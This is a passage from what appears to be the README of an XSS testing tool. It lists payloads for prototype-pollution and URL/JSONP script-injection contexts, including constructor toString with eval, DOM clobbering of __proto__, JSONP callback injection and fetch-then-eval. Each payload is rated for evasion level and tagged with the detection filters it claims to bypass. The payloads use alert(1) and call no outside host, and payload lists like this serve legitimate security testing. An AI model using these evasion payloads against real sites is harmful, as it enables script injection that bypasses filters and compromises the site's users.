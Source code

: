 #### Constructor Prototype Pollution
```javascript
constructor.prototype.toString = function(){return 'alert(1)'}; eval({}+'');
```
- **Evasion Level**: 10/10
- **Bypasses**: constructor_detection, prototype_filters, eval_detection

#### DOM Clobbering via Form
```html
<form id=__proto__><input name=onerror value=alert(1)>
```
- **Evasion Level**: 9/10
- **Bypasses**: dom_clobbering_filters, form_pollution_detection

### 🔧 Usage Examples
```bash
# Test prototype pollution XSS
xss-context /path/to/app.js --contexts prototype_pollution
```

---

## 📡 6. URL JS Context

**Category**: `url_js_context`  
**Difficulty**: `advanced`  
**Description**: Script src constructed from query string and URL context injection

### 🎯 Target Contexts
- Script src constructed from query string
- Example: `<script src="/js/lib.js?cb=alert(1)//"></script>`

### 💀 Key Payloads

#### JSONP Callback Injection
```html
<script src="/api/data?callback=alert(1)//"></script>
```
- **Evasion Level**: 8/10
- **Bypasses**: jsonp_filters, callback_detection

#### Dynamic Script Construction
```javascript
var s=document.createElement('script');s.src='/js/lib.js?cb='+encodeURIComponent('alert(1)//');document.body.appendChild(s);
```
- **Evasion Level**: 9/10
- **Bypasses**: dynamic_script_detection, createElement_filters

#### Fetch Script Injection
```javascript
fetch('/api/script?cb=alert(1)//').then(r=>r.text()).then(eval);
```
- **Evasion Level**: 9/10
- **Bypasses**: fetch_filters, eval_detection, response_eval_detection
